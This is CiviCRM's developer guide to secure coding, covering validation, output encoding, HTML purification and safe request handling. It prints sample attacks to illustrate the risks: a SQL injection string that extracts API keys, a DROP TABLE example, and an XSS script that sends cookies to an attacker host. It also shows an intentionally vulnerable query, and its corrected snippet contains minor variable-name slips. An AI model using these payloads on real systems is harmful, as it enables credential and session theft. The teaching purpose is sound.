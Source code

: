 # Secure Coding Standards

## Introduction

CiviCRM maintains a number of standard practices which help ensure that CiviCRM is as secure as possible. This chapter will aim to help give developers guidance on the best way to write code for CiviCRM core and Extensions etc in a secure way. 

## Inputs and outputs

Like any large application, CiviCRM has many inputs and many outputs &mdash; and for adequate security, it must ensure that all data which flows from untrusted inputs to sensitive outputs receives *sanitizing* at some point along the way to protect against attacks.

![Inputs vs outputs diagram](/img/security-inputs-and-outputs.svg)

### Bad example

Consider the following PHP code:

```php
$contactId = $_GET['cid']; // Untrusted input
$sql = "
 SELECT display_name
 FROM civicrm_contact
 WHERE id = $contactID;
";
$query = CRM_Core_DAO::executeQuery($query); // Sensitive output
```

This is bad because because a user can send the following string for the `cid` parameter:

```text
0 UNION SELECT api_key FROM civicrm_contact WHERE id = 4
```

With this attack, the response page would display the API key (for any contact the attacker chooses) anywhere the page would normally display the contact's name. This is an information disclosure vulnerability.

!!! note
    You might think that an input like ``0; DROP TABLE `civicrm_contact` `` would present an [even more serious a vulnerability](https://xkcd.com/327/), but fortunately CiviCRM does not allow [query stacking](http://www.sqlinjection.net/stacked-queries/) which means `executeQuery()` can only execute one query at a time.

### An improvement using sanitizing

In order to fix this security vulnerability, we need to sanitize either the input or output (or both!) as follows:

```php
$contactId = CRM_Utils_Request::retrieve(
  'cid',
  'Positive' // <-- Input sanitizing
);
$sql = "
  SELECT display_name
  FROM civicrm_contact
  WHERE contact_id = %1;
";
$displayName = CRM_Core_DAO::executeQuery($query, array(
  1 => array($contactId, 'Integer'), // <-- Output sanitizing
));
```

Now, users will only be able to send integers in, and CiviCRM will only be able to send integers out. This is obviously a simplified example, but it illustrates the concepts of inputs, outputs, and sanitizing.


## Sanitization methods

Sanitizing (also sometimes generally called "**escaping**") refers the process of cleaning (or rejecting) data to protect against attacks.

### Validation

The most primitive way to sanitize untrusted data (as in the example above) is to throw an error when it does not conform to the expected format.

Validation works well for data *inputs* which are of known (and simple) types, but can be much more difficult (and less effective) when used for *outputs* or complex data types.

Validation can also be used for *outputs*. For example, when sending data to MySQL in a query, it's good practice to validate that integers are actually integers.

### Encoding (aka "escaping") {:#encoding}

Encoding alters the untrusted data to suit a *specific output*.

For example, consider the following Smarty code:

```html
<div class="email">{$emailAddress}</div>
```

This works fine with an input of `foo@example.org`. But a string like `<script>window.location='http://attacker.example.com/?cookie='+document.cookie</script>` would present an [XSS](https://excess-xss.com/) vulnerability. If loaded in a victim's browser, this string would send the victim's cookies to the attacker's website and allow the attacker to masquerade as the user.

Using validation to reject email addresses characters like `<` or `>` would prevent the attack, but it would also prevent us from displaying email addresses like `"Foo Bar" <foo@example.org>`.

By *encoding* the data for HTML (e.g. by using [htmlentities()](http://php.net/manual/en/function.htmlentities.php)), we change `"Foo Bar" <foo@example.org>` to `&quot;Foo Bar&quot; &lt;foo@example.org&gt;`. This prevents the attack and allows us to display any characters we wish.

!!! important
    Encoding is specific to output mechanisms. Data embedded within HTML must be encoded differently from data embedded in an SQL query or a shell command.

### Purification

In rare cases such as user-editable rich text fields, CiviCRM cannot use validation or encoding to protect against attacks because the same characters used in attacks are also necessary for presentation. For these cases, CiviCRM uses a 3rd-party library called [HTML Purifier](http://htmlpurifier.org/) which employs sophisticated techniques to [remove XSS](http://htmlpurifier.org/live/smoketests/xssAttacks.php) from HTML strings.


## Sanitize input or output? {:#input-vs-output}

Now that we understand sanitization, as well as inputs and outputs, the question arises: *at what point in my code should I sanitize?*

### In an ideal world

Ideally developers should:

* Provide **validation for inputs** which are as strict as possible.
* Provide **encoding for outputs** whenever possible (which is most of the time).
* Provide purification for outputs in rare cases when encoding is not possible (e.g. rich text).

### In a misguided world

A common (and well meaning) mistake is to *encode inputs* instead of *encoding outputs*. For example, we might choose to store a string like `"Foo Bar" <foo@example.org>` in the database as `"Foo Bar" &lt;foo@example.org&gt;` because we know that, later on, our application will display it within an HTML page. This approach is bad because different outputs (e.g. HTML, SQL, shell) require different of encoding schemes. During input we have no reliable way of knowing which outputs the data will reach.

### The current state of CiviCRM 

Unfortunately (at least as of 2017) CiviCRM exists in a somewhat uncomfortable limbo between the ideal world and the misguided world. In some places, CiviCRM sanitizes inputs with a partial encoding for HTML output, and then does not encode the output. In other places, (e.g. data sent to MySQL) CiviCRM encodes outputs. In 2012 developers [identified the need to improve this situation](https://issues.civicrm.org/jira/browse/CRM-11532), but unfortunately it's not an easy task because shifting strategies has implications across the entire codebase. This doesn't mean CiviCRM is rife with security vulnerabilities &mdash; it just means that CiviCRM has not been *consistent* about how it approaches security. Developers should keep this in mind and strive towards the "ideal world" when writing new code.


CiviCRM has long been confused and staggered in regards to whether to escape on output or escape on input. CiviCRM are slowly moving towards escaping on output for most purposes however there is still a need for escaping on input when dealing with writing queries against the database. At present the simplest way to escape on output is to use inbuilt escape functions within our templating engine Smarty. For example:

```
<a  href="{$item.url}" title="{$item.title|escape:'html'}">
```

This will ensure that the variable title within the item key when generating a list of recently viewed items won't have any Cross Site Scripting as it will be escaped for use within HTML. For more information on the types of escaping you can do with Smarty see the [Smarty Documentation](https://www.smarty.net/docsv2/en/language.modifier.escape)



For AngularJS templates, developers should consult the AngularJS [$sanitize documentation](https://docs.angularjs.org/api/ngSanitize/service/$sanitize).

## Handling Request variables

Through the CiviCRM code base you will find that there are a number of times where CiviCRM takes variables passed to it through the URL e.g. `?cid=1234` or `?id=1234`. CiviCRM has put in place some inbuilt functions that help to ensure that no dangerous values are able to be passed through.

```php
$cid = CRM_Utils_Request::retrieve('cid', 'Positive', $this);
$id = CRM_Utils_Request::retrieve('id', 'Positive', $this, FALSE, NULL, 'GET');
$angPage = CRM_Utils_Request::retrieve('angPage', 'String', $this);
if (!preg_match(':^[a-zA-Z0-9\-_/]+$:', $angPage)) {
  CRM_Core_Error::fatal('Malformed return URL');
}
$backUrl = CRM_Utils_System::url('civicrm/a/#/' . $angPage);
```

What you will notice above is that one of the key things there is the usage of `CRM_Utils_Request::retrieve` This function takes in whatever request variables have been passed to the page or form etc, gets the key requested out of it, then ensures that it meets a specific type of value. The acceptable types can be found in [CRM_Utils_Type::validate](https://github.com/civicrm/civicrm-core/blob/60050425316acb3726305d1c34908074cde124c7/CRM/Utils/Type.php#L378). 

## Passing variables into SQL

Developers should ensure that whenever they pass variables into SQL statements that they do it in the proper standard. More information can be found in the [SQL Coding Standards](/standards/sql/).

## References

 - Escape on Input v Escape on output [Stack exchange](https://security.stackexchange.com/questions/95325/input-sanitization-vs-output-sanitization) [Stack Overflow](https://stackoverflow.com/questions/11253532/html-xss-escape-on-input-vs-output).
